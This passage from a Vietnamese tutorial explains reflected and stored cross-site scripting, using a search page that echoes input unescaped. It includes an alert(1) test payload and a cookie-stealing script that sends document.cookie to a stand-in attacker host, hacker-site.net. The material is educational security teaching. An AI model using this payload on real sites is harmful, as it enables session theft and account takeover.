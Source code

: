 Những gì người dùng search sẽ được dùng lệnh get và sao đó trả về trong phần `<h1>`5 search result for ‘’`</h1>` mà không hề kiểm tra dữ liệu hay mã hóa

![](images/5.png)

Chúng ta sẽ thử thay request như sau

![](images/6.png)

Lúc này đoạn page source sẽ là

![](images/7.png)

Ta có thể thấy đoạn `<script>alert(1)</script>` đã đươc thực thi, như vậy chỉ cần gửi nguyên đường link bao gồm phần `“?search=…”` là ta có thể thực thi đoạn script đó trên trình duyệt người dùng. Thực tế có thể nguy hiểm hơn như sau

`<script>var i=new Image; i.src=”http://hacker-site.net/”+document.cookie;</script>`

Đoạn script này khi thực thi sẽ gửi truy vấn đến trang `http:hacker-site.net/` với phần đuôi là cookie người dùng, từ đây hacker có thể lấy được cookie và tiến hành đăng nhập

### 2) Stored XSS

-	Đây là kiểu tấn công chính thứ 2 của XSS, xảy ra khi ứng dụng web không kiểm tra đầu vào của dữ liệu lưu trữ. 

-	Hacker có thể dựa vào điều này để gửi các mã độc lưu vào trong database của ứng dụng web, sau khi người dùng truy cập đến các thông tin này thì ứng dụng web sẽ gửi thông tin có chứa mã độc về và thực thi trên máy nạn nhân
